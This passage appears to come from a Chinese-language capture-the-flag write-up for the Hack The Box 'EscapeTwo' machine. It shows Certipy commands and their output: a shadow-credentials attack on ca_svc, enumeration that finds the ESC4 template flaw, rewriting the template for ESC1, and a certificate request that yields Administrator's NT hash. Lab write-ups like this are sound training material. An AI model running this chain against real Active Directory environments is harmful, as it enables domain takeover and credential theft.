Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '9da524f6-344e-1548-3280-1579784564d3'
[*] Adding Key Credential with device ID '9da524f6-344e-1548-3280-1579784564d3' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '9da524f6-344e-1548-3280-1579784564d3' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

export KRB5CCNAME=ca\_svc.ccache将票据导入到环境变量里

## ADCS Enumeration

使用certipy-ad枚举

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ certipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
Certificate Templates
0
Template Name: DunderMifflinAuthentication
Display Name: Dunder Mifflin Authentication
Certificate Authorities: sequel-DC01-CA
Enabled: True
Client Authentication: True
Enrollment Agent: False
Any Purpose: False
Enrollee Supplies Subject: False
Certificate Name Flag: SubjectRequireCommonName SubjectAltRequireDns
Enrollment Flag: AutoEnrollment PublishToDs
Private Key Flag: 16842752
Extended Key Usage: Client Authentication Server Authentication
Requires Manager Approval: False
Requires Key Archival: False
Authorized Signatures Required: 0
Validity Period: 1000 years
Renewal Period: 6 weeks
Minimum RSA Key Length: 2048
Permissions
Enrollment Permissions
Enrollment Rights: SEQUEL.HTB\Domain Admins SEQUEL.HTB\Enterprise Admins
Object Control Permissions
Owner: SEQUEL.HTB\Enterprise Admins
Full Control Principals: SEQUEL.HTB\Cert Publishers
Write Owner Principals: SEQUEL.HTB\Domain Admins SEQUEL.HTB\Enterprise Admins SEQUEL.HTB\Administrator SEQUEL.HTB\Cert Publishers
Write Dacl Principals: SEQUEL.HTB\Domain Admins SEQUEL.HTB\Enterprise Admins SEQUEL.HTB\Administrator SEQUEL.HTB\Cert Publishers
Write Property Principals: SEQUEL.HTB\Domain Admins SEQUEL.HTB\Enterprise Admins SEQUEL.HTB\Administrator SEQUEL.HTB\Cert Publishers
[!] Vulnerabilities
ESC4: 'SEQUEL.HTB\Cert Publishers' has dangerous permissions
```

# 权限提升

## ESC4 - Access Control Vulnerabilities

参考：<https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc4-access-control-vulnerabilities>



### Make template vuln to ESC1

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]                      
└─$ certipy-ad template -k -template 'DunderMifflinAuthentication' -target dc01.sequel.htb -dc-ip 10.10.11.51 -save-old                        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

### Exploit ESC1

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51  -ca sequel-DC01-CA -target DC01.sequel.htb -templat DunderMifflinAuthentication -upn Administrator@sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'Administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### 使用证书进行身份验证并接收Administrator用户的哈希

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

### evil-winrm再启动！


